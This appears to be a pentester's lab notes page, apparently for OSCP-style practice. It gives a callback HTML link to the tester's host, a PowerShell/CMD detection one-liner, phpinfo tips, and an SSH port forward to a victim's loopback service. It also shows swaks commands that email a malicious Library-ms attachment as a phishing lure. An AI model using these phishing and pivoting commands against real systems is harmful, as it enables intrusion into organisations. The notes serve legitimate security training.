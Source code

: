 

#### When you See Input Section on Website

Try to set up a quick python server and make a get request with HTML:

```html
 <body>                                                                         
     <a href="http://192.168.192.121:8000/your-endpoint">Send GET Request</a>         
 </body>
 ```

 #### How to tell if you're dealing with Powershell or CMD

 ```bash
 (dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
 ```

 #### PHPINFO - What to Look For

 Look for the document root, as it will tell you the directory the website is working out of. Also, look at "disable_functions" as it will tell you what functions you're allowed to run in PHP.

 #### Mark Yourself as the Owner of Current Directory

 This is more for ease of use, when you know that the files in this directory could be compromised without you worrying. 

 ```bash
 sudo chown -R username:username ./
 ```


#### Probably the best Cheat Sheet I've Found

"https://cheatsheet.haax.fr/web-pentest/injections/server-side-injections/sql/" 


#### Acessing Loopback Interface

Found webserver running on port 8000 on the remote machine's loopback interface. Do the following to be able to access the port on your own loopback:

```bash
ssh -N -L 9000:localhost:8000 -i 245/id_ecdsa anita@192.168.196.246 -p 2222
```


#### Swaks

This didn't work without the '@' in front of the attachment.

```bash
sudo swaks -t jim@relia.com --from maildmz@relia.com --attach @config.Library-ms --server 192.168.196.189 --body body.txt --header "Subject: Staging Script" -ap

sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.50.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
 ```
